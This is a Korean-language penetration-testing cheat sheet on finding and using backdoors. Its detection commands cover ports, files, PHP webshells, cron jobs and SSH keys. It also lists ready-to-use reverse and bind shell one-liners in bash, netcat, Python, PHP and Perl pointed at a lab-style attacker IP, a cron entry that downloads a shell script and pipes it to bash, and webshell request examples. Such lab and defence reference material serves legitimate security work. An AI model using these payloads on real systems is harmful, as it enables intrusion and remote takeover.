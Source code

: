 # 백도어 탐지 및 활용

## 네트워크 연결 확인

```bash
# 리스닝 포트 확인
netstat -tunlp   # Linux
netstat -ano     # Windows

# 특이 연결 탐지
netstat -antup | grep ESTABLISHED
ss -antup        # 최신 리눅스 시스템에서는 ss 명령어 

# 비정상 리스닝 포트 확인
netstat -tunlp | grep -v -E "^(tcp6|udp6)"
netstat -tulpn | grep -E ':4444|:5555|:1337|:[0-9]{5}'  # 일반적인 백도어 포트
```

## 파일시스템 탐지

```bash
# 의심스러운 파일 검색
find / -type f -mtime -1 -not -path "/proc/*" -ls 2>/dev/null  # 24시간 내 수정 파일
find / -type f -perm -o+w -not -path "/proc/*" -ls 2>/dev/null  # 모두 쓰기 권한 파일
find / -name ".*" -type f -not -path "/proc/*" 2>/dev/null     # 숨겨진 파일

# 웹 백도어 검색 (PHP)
find /var/www/ -name "*.php" -type f -exec grep -l "system\|exec\|passthru\|shell_exec" {} \;
find /var/www/ -name "*.php" -type f -exec grep -l "eval *(" {} \;
find /var/www/ -name "*.php" -type f -exec grep -l "base64_decode" {} \;
```

## 프로세스/작업 검사

```bash
# 프로세스 검사
ps aux --forest      # 트리 형태로 프로세스 확인
ps aux | grep -i "nc\|netcat\|ncat\|socat"  # 네트워크 도구
ps aux | grep -v "^root\|^www-data\|^nobody"  # 비정상 사용자 프로세스

# 크론 작업 검사
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /var/spool/cron/crontabs/
cat /var/spool/cron/crontabs/root  # 루트 크론 작업 확인
```

## Netcat 백도어 검사/활용

```bash
# 열린 포트 테스트
nc -nvz 10.10.10.10 1-65535  # 전체 포트 스캔
nc -nvz 10.10.10.10 4000-5000  # 범위 스캔
nc -nvz 10.10.10.10 21 22 23 80 443 445 3306 5432 8080  # 특정 포트

# 배너 그랩
nc -nv 10.10.10.10 4444  # 특정 포트 배너 확인
echo -e "GET / HTTP/1.0\r\n\r\n" | nc 10.10.10.10 80  # HTTP 배너

# 백도어 연결
nc 10.10.10.10 4444  # 기본 연결
nc -vn 10.10.10.10 4444  # 상세 출력
```

## 백도어 유형 및 활용

```bash
# 리버스 쉘 (타겟→공격자)
# 공격자 측
nc -lvnp 4444

# 타겟 측
bash -i >& /dev/tcp/10.10.14.x/4444 0>&1
nc -e /bin/bash 10.10.14.x 4444  # 구형 nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.x 4444 >/tmp/f  # 대안
```

## 백도어 유형별 탐지/대응

### PHP 웹 백도어
```bash
# 탐지
grep -r "system\|exec\|shell_exec\|passthru\|eval" /var/www/

# 일반적 백도어 파라미터
curl "http://target/shell.php?cmd=id"
curl "http://target/shell.php?c=id"
curl "http://target/shell.php?backdoor=id"
curl "http://target/shell.php" -d "cmd=id"

# 확인 방법
md5sum /var/www/html/wp-content/uploads/shell.php
stat /var/www/html/includes/shell.php  # 생성/수정 시간
```

### 크론 백도어
```bash
# 일반적 위치
/etc/cron.d/
/etc/crontab
/var/spool/cron/crontabs/

# 백도어 예시
*/10 * * * * root curl -s http://10.10.14.x/shell | bash
@daily www-data /tmp/.backdoor
```

### SSH 백도어
```bash
# 인증키 확인
find / -name "authorized_keys" -ls 2>/dev/null
cat ~/.ssh/authorized_keys
cat /root/.ssh/authorized_keys

# 의심스러운 설정
cat /etc/ssh/sshd_config | grep -i "PermitRoot\|PasswordAuth\|PubkeyAuth"
```

## 빠른 백도어 배포

### 리버스 쉘 (타겟→공격자)
```bash
# Bash
bash -i >& /dev/tcp/10.10.14.x/4444 0>&1

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.x",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.10.14.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Perl
perl -e 'use Socket;$i="10.10.14.x";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 바인드 쉘 (공격자→타겟)
```bash
# Netcat
nc -lvp 4444 -e /bin/bash  # 타겟에서 실행
nc 10.10.10.x 4444         # 공격자에서 연결

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",4444));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

## 백도어 탐지 체크리스트

1. 네트워크 연결: `netstat -tunlp`, `ss -tunlp`
2. 비정상 포트: `lsof -i`
3. 의심 프로세스: `ps auxf`, `pstree -p`
4. 크론 작업: `cat /etc/crontab`, `/var/spool/cron/crontabs/*`
5. 웹쉘: `find /var/www -type f -mtime -3 -name "*.php"`
6. 권한 설정: `find / -perm -4000 -ls 2>/dev/null`
7. SSH 키: `~/.ssh/authorized_keys`
8. 로그 확인: `/var/log/auth.log`, `/var/log/apache2/access.log`

